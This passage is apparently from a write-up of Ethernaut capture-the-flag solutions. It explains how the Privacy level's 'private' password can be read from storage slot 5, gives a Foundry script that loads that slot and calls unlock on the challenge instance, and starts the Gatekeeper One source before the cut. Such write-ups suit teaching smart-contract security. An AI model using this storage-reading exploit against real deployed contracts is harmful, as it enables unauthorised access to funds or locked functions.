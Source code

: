     ```solidity
    `bool public locked = true;                                  // slot 0
    uint256 public ID = block.timestamp;                        // slot 1
    uint8 private flattening = 10;                              // slot 2
    uint8 private denomination = 255;                           // slot 2
    uint16 private awkwardness = uint16(block.timestamp);       // slot 2
    bytes32[3] private data;  // data[0] => slot 3`  
                              // data[1] => slot 4'
                              // data[2] => slot 5`
    ```
    
3. Password is the lower 16 bytes of the `data[2]`, i.e `require(_key == bytes16(data[2]));`
4. Since the `data[2]` stored at slot 5, we can query it with `vm.load` cheatcode.
5. Calling unlock with this password will solve the challenge.

**Level12Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level12.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level12Sol is Script{

    Privacy public instance = Privacy(0x80AeDd671Abb04118998A8baAd7B879aA53756f9) ;

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        bytes32 slot5_data = vm.load(address(instance),bytes32(uint256(5)));
        instance.unlock(bytes16(slot5_data));

        vm.stopBroadcast();
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level12Solution.s.sol:Level12Sol --rpc-url $RPC_URL --broadcast
```

## Gatekeeper One

**Level13.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
```